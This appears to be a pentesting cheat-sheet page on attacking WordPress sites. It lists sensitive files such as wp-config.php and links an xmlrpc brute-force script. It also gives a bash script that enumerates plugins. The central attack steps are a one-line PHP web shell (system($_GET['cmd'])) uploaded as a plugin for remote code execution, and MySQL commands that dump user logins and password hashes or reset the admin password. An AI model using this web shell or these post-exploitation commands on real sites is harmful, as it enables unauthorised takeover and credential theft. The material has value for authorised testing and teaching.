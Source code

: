 # Wordpress

## Basic Information

### Themes files

They're located at `/wp-content/themes/` so if you gain access to the WordPress Admin panel, you can modify **404.php** of some theme, and then go to `/wp-content/themes/twentytwenty/404.php`

### Main WordPress files

| File          | Description                                                                                                                                                                                                  |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| wp-config.php | Here you can find the root password of the database                                                                                                                                                          |
| xmlrpc.php    | File that represents a feature that enables data to be transmited by HTTP with XML mechanism. You can use this [script](https://github.com/notlucken/xmlrpc\_bruteforce/) to bruteforce users and passwords. |
| license.txt   | Userful information like the version of WordPress                                                                                                                                                            |

## Plugins Enumeration

To identify plugins of a Wordpress site, we can use a Script created by S4vitar but I improved it and uploaded to GitHub:

[Enumerate WordPress Plugins](https://github.com/notlucken/enumWordpressPlugins)

```bash
#!/bin/bash

function ctrl_c(){
  echo -e "[!] Exiting..."
  exit 1
}


#Ctrl + C
trap ctrl_c INT

declare -i c=0

function readPlugins(){

  url=$1
  echo -e "\n[!] These are the plugins of $1:\n"
  echo -n "[+] "; curl -s -X GET "$url" | grep -oP '/plugins/\K[^.*/]+' | sort -u 
}

function helPanel(){
  echo -e "\n[i] Use\n"
  echo -e "\nh) Show this panel\n"
  echo -e "\nf) URL\n"
}

while getopts "hf:" arg; do
  case $arg in
    h) ;;
    f) url=$OPTARG; let c+=1;;
  esac
done

if [ $c -eq 1 ]; then
  readPlugins "$url"
else
  helPanel
fi
```

The usage is simple, only do a `chmod +x enumWordPressPlugins.sh` and later \`\`./enumWordpressPlugins.sh

## Plugin RCE

### PHP Plugin

Depending on the plugin, we can upload a .php file as a plugin.

```php
<?php system($_GET['cmd']); ?>
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

You will see an error, but if we go to media:

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Access it to see the link:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

## Post Explotation

If we can see the username and password of MySQL database, we can use this command to extract usernames and passwords

```bash
mysql -u <USERNAME> --password=<PASSWORD> -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```

Or we can change admin password

```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;UPDATE wp_users SET user_pass=MD5('12345678') WHERE ID = 1;"b
```

